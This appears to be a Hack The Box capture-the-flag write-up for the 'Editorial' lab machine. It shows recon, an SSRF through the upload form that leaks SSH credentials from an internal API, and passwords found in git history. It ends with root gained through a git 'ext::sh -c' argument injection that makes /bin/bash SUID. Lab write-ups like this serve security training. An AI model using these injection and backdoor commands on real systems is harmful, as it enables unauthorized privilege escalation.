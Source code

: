 # Editorial Write-up

<img src="https://labs.hackthebox.com/storage/avatars/a466db5ce4f7aaea98f588d1cb71a0aa.png" width="200" height="200">

## Recon 

### Port enumeration with Nmap

`nmap -sC -sV -p- 10.10.11.20`

Add domain name to `/etc/hosts`

    sudo echo "10.10.11.20 editorial.htb" | sudo tee -a /etc/hosts

`editorial.htb`

![image](https://github.com/zer00d4y/writeups/assets/128820441/07fdd17a-f5fe-47b2-b023-18ca896b2502)

`editorial.htb/upload`

![image](https://github.com/zer00d4y/writeups/assets/128820441/41e07ae5-ffed-4142-8dda-129aabe270ca)

![image](https://github.com/zer00d4y/writeups/assets/128820441/c4d5cf44-7914-4f2c-ab85-042f8fec1cf3)

![image](https://github.com/zer00d4y/writeups/assets/128820441/f756318a-78a9-4d6c-9df6-b2b89f9b9403)

`http://127.0.0.1:5000/`

![image](https://github.com/zer00d4y/writeups/assets/128820441/0216112e-e857-48ce-ad81-2ebc7ddecb6a)

static/uploads/d93ee52f-75f2-4273-b05c-f4932c366478

![image](https://github.com/zer00d4y/writeups/assets/128820441/d613d58e-5577-43ba-85ce-bea48a5ba8b9)

    {"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}

/api/latest/metadata/messages/authors

![image](https://github.com/zer00d4y/writeups/assets/128820441/52e8bd7a-5202-4c35-8260-4c477bed1700)

static/uploads/d1166303-dbfa-496d-b260-3f45d9b66c9a

![image](https://github.com/zer00d4y/writeups/assets/128820441/28f92595-3fe8-41cd-af0e-7441dcc57a18)

SSH credentials

`dev:dev080217_devAPI!@`

Get the user flag!

![image](https://github.com/zer00d4y/writeups/assets/128820441/a7e04a02-398a-4728-a9a2-03d4762f1c93)

## Root

![image](https://github.com/zer00d4y/writeups/assets/128820441/3ad2f8e3-b7e9-425b-8604-db6ca4fdcf5b)

![image](https://github.com/zer00d4y/writeups/assets/128820441/c8fe42b2-ef4e-4ed7-a9f9-2211a53b491e)

git show 1e84a036b2f33c59e2390730699a488c65643d28

    ...
    +        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
    ...

SSH credentials for `Prod`

`prod:080217_Producti0n_2023!@`

![image](https://github.com/zer00d4y/writeups/assets/128820441/16e93836-bbc6-4331-a261-0026caa67669)

    echo '#!/bin/bash' > /tmp/exploit.sh 
    
    echo 'chmod u+s /bin/bash' >> /tmp/exploit.sh  
      
    sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exploit.sh'"  
      
    ls -l /bin/bash

![image](https://github.com/zer00d4y/writeups/assets/128820441/74d0eb0e-1475-4172-abd1-3bea6ca23bac)

Get the root flag!

![image](https://github.com/zer00d4y/writeups/assets/128820441/c7c2778a-c835-49dd-9232-acb92554cb2f)

